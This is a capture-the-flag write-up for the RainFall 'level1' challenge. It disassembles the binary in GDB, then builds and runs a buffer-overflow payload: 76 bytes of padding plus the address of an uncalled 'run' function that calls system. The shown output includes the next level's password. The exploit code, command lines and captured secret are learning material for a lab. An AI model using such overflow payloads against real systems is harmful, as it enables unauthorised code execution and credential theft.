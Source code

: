 # level1

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

Go to:
1. [The binary](#the-binary): some analysis
2. [Buffer overflow](#buffer-overflow): how to solve this level

## The binary

First, execute `level1` and play with it a little:

```console
level1@RainFall:~$ ./level1
ashaiuhsoiahsioahisoaoishoiasioahsoiaoisnaoinsoiansoiansoinaiosnaoinsoihfoahsoinasoidhiuawhdowdgligalugaidgalkgdgdiasgdias
Segmentation fault (core dumped)
```

Putting a lot of crap makes `level1` segfaulting that is to say it is not protected somewhere. Let's check what is
inside this binary `level1`:

```gdb
level1@RainFall:~$ gdb level1
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

So, we notice several functions such as: `main`, `run`, `gets`, `fwrite` and so on. Let's have a look at `main`:

```gdb
Dump of assembler code for function main:
   0x08048480 <+0>:    push   ebp                      ; Stack frame
   0x08048481 <+1>:    mov    ebp,esp                  ; initialization.
   0x08048483 <+3>:    and    esp,0xfffffff0           ; Stack frame alignment: rounding down to the nearest multiple of 16. 
   0x08048486 <+6>:    sub    esp,0x50                 ; Create the frame of size 0x50 (decimal 80).
   0x08048489 <+9>:    lea    eax,[esp+0x10]           ; The actual buffer starts at esp+0x10 (decimal 16).
   0x0804848d <+13>:   mov    DWORD PTR [esp],eax      ; The pointer to the beginning of the pointer will be the parameter of `<gets>`.
   0x08048490 <+16>:   call   0x8048340 <gets@plt>     ; Calling `<gets>`.
   0x08048495 <+21>:   leave
   0x08048496 <+22>:   ret
End of assembler dump.
```

Well, now we know more about `main`, if you dig into `gets` you will notice that it calls `_IO_getline` - thus a prompt
waiting for you to enter something followed by `return`. But, it is not significant for us here. We notice that function
`run` is never called! To convince yourself, just put a breakpoint onto this function and run. The program run as usual.

So, let's have a look at it:

```gdb
gdb-peda$ disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18                     ; The stack frame is 0x18 (decimal 24) bytes big.
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>       ; That is interesting! It calls `system`.
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```

Well, well, well. We have a call to `system` which executes code without other any checking. That's our entry point. Now
we are going to use one famous hacker technic: the *buffer overflow*.

## Buffer overflow

In order to do so we are going to use the buffer initialize in `main`. The objectives are clear: thanks to `gets` we can
buffer overflow the `main` function and put afterwards a call to `run` (which starts at `0x08048444`).

To do so, we need to calculate the offset in order to override the `EIP` address. We are going to make it point to `run`
function. Thanks to this [online
tool](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) we know that the offset is of
76.

Let's create our string with 76 `A` and the address (the address is inverse because of the endianness):

```console
level1@RainFall:~$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/level1
```

And give it to `level1` executable:

```console
level1@RainFall:~$ cat /tmp/level1 - | ./level1
```

> `$ cat [file] -` means that `cat` open the file then stdin (`-`).

Finally:

```console
level1@RainFall:~$ cat /tmp/test - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
